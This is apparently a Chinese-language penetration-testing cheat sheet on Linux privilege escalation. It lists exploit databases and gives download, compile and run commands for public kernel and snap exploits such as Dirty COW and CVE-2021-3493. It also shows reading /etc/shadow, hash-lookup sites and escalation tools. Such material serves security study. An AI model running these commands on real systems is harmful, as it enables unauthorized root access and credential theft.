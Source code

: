 #### 一、漏洞收集

- 常用信息站点

> http://www.exploit-db.com
https://www.securityfocus.com/bid
https://www.rapid7.com/db/
https://cxsecurity.com/exploit/
https://seclists.org/fulldisclosure/
https://exploit.kitploit.com/
https://www.cvedetails.com/index.php
https://packetstormsecurity.com/
http://cve.mitre.org/cve/search_cve_list.html
https://www.anquanke.com/vul
https://nvd.nist.gov/vuln/categories

- searchsploit命令

> https://gitlab.com/exploit-database/exploitdb

```sh
searchsploit smb windows remote
```

#### 二、历史漏洞利用

##### 0x01、脏牛(Dirty COW)

> POC：https://github.com/FireFart/dirtycow
> 
> GCC编译：gcc -pthread ditry.c -o dirty -lcrypt
> 
> 替换root用户： ./dirty password

##### 0x02、CVE-2019-13272

Linux本地提权

漏洞范围：`4.10 < linux内核版本 < 5.1.17`

> exploitdb： https://www.exploit-db.com/exploits/47163

```sh
wget https://www.exploit-db.com/download/47163 -O exp.c 
gcc exp.c –o exp 
./exp
```

##### 0x03、CVE-2019-7304

Linux包管理器**snap**本地提权漏洞

Ubuntu版本范围： 

> Ubuntu 18.10 
> 
> Ubuntu 18.04 LTS 
> 
> Ubuntu 16.04 LTS 
> 
> Ubuntu 14.04 LTS

snap版本范围：`2.28 < snapd < 2.37`

> https://github.com/initstring/dirty_sock

##### 0x04、CVE-2021-3493

漏洞影响范围：

> Ubuntu 20.10 
> 
> Ubuntu 20.04 LTS 
> 
> Ubuntu 18.04 LTS 
> 
> Ubuntu 16.04 LTS 
> 
> Ubuntu 14.04 ESM

利用脚本：https://github.com/briskets/CVE-2021-3493

```sh
gcc exploit.c -o exploit

./exploit
```

#### 三、密码哈希

```sh
cat /etc/shadow

#1. 用户名 
#2. 加密后的密码 
#3. 上次修改密码的时间(从1970.1.1开始的总天数) 
#4. 两次修改密码间隔的最少天数，如果为0，则没有限制 
#5. 两次修改密码间隔最多的天数,表示该用户的密码会在多少天后过期，如果为99999则没有限制提 
#6. 前多少天警告用户密码将过期 
#7. 在密码过期之后多少天禁用此用户 
#8. 用户过期日期(从1970.1.1开始的总天数)，如果为0，则该用户永久可用 
#9. 保留
```

##### 0x01、哈希撞库

> https://cmd5.com/
> 
> https://www.somd5.com/

##### 0x02、提权工具

- traitor

```sh
https://github.com/liamg/traitor
```

- gtfo

```sh
https://github.com/mzfr/gtfo
```
